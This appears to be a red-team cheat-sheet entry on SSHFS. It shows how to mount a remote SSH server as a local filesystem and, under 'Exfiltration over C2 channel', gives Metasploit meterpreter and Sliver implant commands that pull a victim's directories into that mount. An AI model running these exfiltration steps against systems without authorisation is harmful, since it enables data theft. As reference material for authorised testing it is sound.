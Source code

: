 # SSHFS

Search Tag(s): #post-exploitation #file-transfer-and-data-exfiltration #ssh #linux

## 01 - Usage

Mount SSH server as a filesystem

```
$ sudo mkdir /mnt/ssh_filesystem && sudo chown $USER:$USER /mnt/ssh_filesystem/

$ sshfs <username>@<IP>:/path/to/remote/directory/ /mnt/ssh_filesystem/ -C [-p <PORT>]
```

To unmount the filesystem

```
$ fusermount -u /mnt/ssh_filesystem/
```

## 02 - Use Cases

### 2.1 - Exfiltration over C2 channel

#### 2.1.1 - Metasploit

```
meterpreter > download -r [<drive_letter>:]/path/to/remote/directory/ /mnt/ssh_filesystem/
```

#### 2.1.2 - Sliver

```
sliver (IMPLANT NAME) > download -r [<drive_letter>:]/path/to/remote/directory/ /mnt/ssh_filesystem/
```

---
## References

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x05 - File Transfer and Data Exfiltration/Cross Platform/C2 Frameworks/Metasploit|Metasploit: Data Exfiltration]]

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x05 - File Transfer and Data Exfiltration/Cross Platform/C2 Frameworks/Sliver|Sliver: Data Exfiltration]]
